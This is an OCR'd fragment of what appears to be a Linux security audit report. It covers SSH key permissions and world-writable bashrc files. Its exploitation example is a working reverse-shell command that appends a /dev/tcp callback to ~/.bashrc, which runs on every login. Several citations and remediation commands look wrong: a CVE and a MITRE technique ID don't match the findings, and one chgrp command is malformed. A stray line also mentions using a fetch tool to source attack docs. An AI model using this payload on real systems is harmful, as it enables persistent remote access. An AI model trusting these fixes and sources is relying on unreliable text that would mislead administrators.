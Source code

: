       **Criticality**: High (CVSS 9.0)                                                                                                                                                                                                 
      **Remediation**:                                                                                                                                                                                                                 
      ```bash                                                                                                                                                                                                                          
      chmod 600 ~/.ssh/authorized_keys; chgrp -R .ssh /path/to/user_home                                                                                                                                                               
      ```                                                                                                                                                                                                                              
      **Sources**:                                                                                                                                                                                                                     
      CVE-2020-14145 | NIST SP 800-181 | Red Hat SSH Security Guide                                                                                                                                                                    
      (fetch tool could be used to source attack docs)                                                                                                                                                                                 
                                                                                                                                                                                                                                       
      ## 2. Bash Initialization File Tampering                                                                                                                                                                                         
      **Vulnerability**: World-writable bashrc files enable reverse shell injection                                                                                                                                                    
      **Exploitation Example**:                                                                                                                                                                                                        
      ```bash                                                                                                                                                                                                                          
      echo "exec 5<>/dev/tcp/10.0.0.1/4444 && sh <&5 >&5 2>&5" >> ~/.bashrc                                                                                                                                                            
      ```                                                                                                                                                                                                                              
      **Impact**: Escalates callback channels on user login                                                                                                                                                                            
      **Criticality**: High (CVSS 8.5)                                                                                                                                                                                                 
      **Remediation**:                                                                                                                                                                                                                 
      ```bash                                                                                                                                                                                                                          
      find /home -name .bashrc -exec chmod 644 {} + &&                                                                                                                                                                                 
      find /home -name .bashrc -exec chown -R :users {} +                                                                                                                                                                              
      ```                                                                                                                                                                                                                              
      **Sources**:                                                                                                                                                                                                                     
      MITRE T1504 | SANS ShellShock Guide | Chapter 7 - Linux User Security                                                                                                                                                            
                                                                                                                                                                                                                                       